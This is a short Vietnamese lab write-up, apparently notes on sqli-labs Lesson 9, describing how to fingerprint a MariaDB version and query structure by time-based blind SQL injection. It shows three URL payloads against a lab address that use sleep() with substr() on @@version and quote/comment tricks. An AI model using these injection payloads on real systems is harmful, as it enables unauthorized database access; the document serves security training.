






# Những việc làm được với lesson-9
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-9 



1. Nhập giá trị id 







Ở bài này khác với bài 8 ta chỉ nhập id là có thể được pass qua. Và ta vẫn chưa thể biết được cấu trúc của nó. Sau khi xác định được máy sử dụng MariaDB bằng lệnh nmap như các bài trước ta đã làm. Thì ta dựa vào đó để đoán phiên bản và đoán được ra cấu trúc câu lệnh. MariaDB có 5.x và 10.x nên ta dựa vào đó để đoán ra cấu trúc của bài này 

```
192.168.80.225/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```



```
192.168.80.225/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='10',sleep(5),false) --+
```


cứ như vậy với các ký tự đặc biệt ta sẽ có cấu trúc 
```
192.168.80.225/sqli-labs/Less-9/?id=1' and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```



Sau khi biết được cấu trúc của nó ta có thể làm tương tự được các bài 7 và 8 như trước của ta đã làm. Để có thể show được giá trị của nó ra     
